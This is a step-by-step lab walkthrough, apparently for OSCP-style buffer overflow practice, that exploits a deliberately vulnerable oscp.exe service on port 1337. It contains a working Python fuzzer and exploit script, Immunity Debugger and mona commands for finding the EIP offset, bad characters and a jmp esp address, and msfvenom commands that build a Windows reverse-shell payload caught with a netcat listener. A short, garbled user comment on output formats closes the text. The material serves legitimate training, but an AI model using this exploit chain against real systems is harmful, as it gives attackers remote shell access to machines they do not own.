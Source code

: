 ﻿Right-click the Immunity Debugger icon on the Desktop and choose "Run as administrator".

When Immunity loads, click the open file icon, or choose File -> Open. Navigate to the vulnerable-apps folder on the admin user's desktop, and then the "oscp" folder. Select the "oscp" (oscp.exe) binary and click "Open".

The binary will open in a "paused" state, so click the red play icon or choose Debug -> Run. In a terminal window, the oscp.exe binary should be running, and tells us that it is listening on port 1337.

On your Kali box, connect to port 1337 on 10.10.71.30 using netcat:

nc 10.10.71.30 1337

Type "HELP" and press Enter. Note that there are 10 different OVERFLOW commands numbered 1 - 10. Type "OVERFLOW1 test" and press enter. The response should be "OVERFLOW1 COMPLETE". Terminate the connection.

Mona Configuration

The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:

!mona config -set workingfolder c:\mona\%p

Fuzzing
Create a file on your Kali box called fuzzer.py with the following contents:

#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.71.30"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)


Run the fuzzer.py script using python: python3 fuzzer.py

The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

Crash Replication & Controlling EIP

﻿Create another file on your Kali box called exploit.py with the following contents:

import socket

ip = "10.10.71.30"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")


Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600

Copy the output and place it into the payload variable of the exploit.py script.

On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

On Kali, run the modified exploit.py script: python3 exploit.py

The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

!mona findmsp -distance 600

Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

In this output you should see a line which states:

EIP contains normal pattern : ... (offset XXXX)

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

Finding Bad Characters

﻿Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

!mona bytearray -b "\x00"

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()

Update your exploit.py script and set the payload variable to the string of bad chars the script generates.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Make a note of the address to which the ESP register points and use it in the following mona command:

!mona compare -f C:\mona\oscp\bytearray.bin -a <address>

A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):

!mona jmp -r esp -cpb "\x00"

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

padding = "\x90" * 16
Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!

cause the latin1 language. we need using the options -f c to be sure which is not change.

msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c